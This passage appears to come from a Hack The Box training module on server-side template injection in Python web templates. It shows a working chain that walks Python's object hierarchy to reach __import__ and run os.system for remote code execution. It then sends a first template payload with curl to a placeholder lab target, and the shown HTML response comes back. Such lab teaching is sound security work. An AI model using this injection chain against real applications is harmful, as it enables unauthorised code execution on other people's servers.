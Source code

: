 ```python
...	
__import__ <built-in function __import__>
```

It seems we have reached the import function by walking the hierarchy. This means we can load `os` and use the `system` function to execute code all coming from a string object, as follows.

Code: python

```python
>>> ''.__class__.__mro__[1].__subclasses__()

[215]()._module.__builtins__['__import__']('os').system('echo RCE from a string object')
RCE from a string object
0
```

Returning to our vulnerable web application, let's see how we can repeat the same process and develop an RCE payload. Remember that the below payloads can be submitted to the application via the browser as is or via cURL after being URL encoded.

Payload:

Code: python

```python
{{ ''.__class__ }}
```

#### Curl - Interacting with the Target

  SSTI Exploitation Example 3

```shell-session
Pangulin@htb[/htb]$ curl -gs "http://<TARGET IP>:<PORT>/execute?cmd=%7B%7B%20%27%27.__class__%20%7D%7D"

<SNIP>
<body>
	<div id="desktop">
		<div class="window" data-title="Run">
			<form action="/execute" method="get">
				<a>C:\><input type="text" name="cmd" id="command"></a>
				<br/>
				<a>&lt;class &#39;str&#39;&gt;</a>
				<br/>
				<input type="submit" value="execute">
			</form>
		</div>
<SNIP>
</body>
```


---------------------------------------------------------------
#Explanation: 
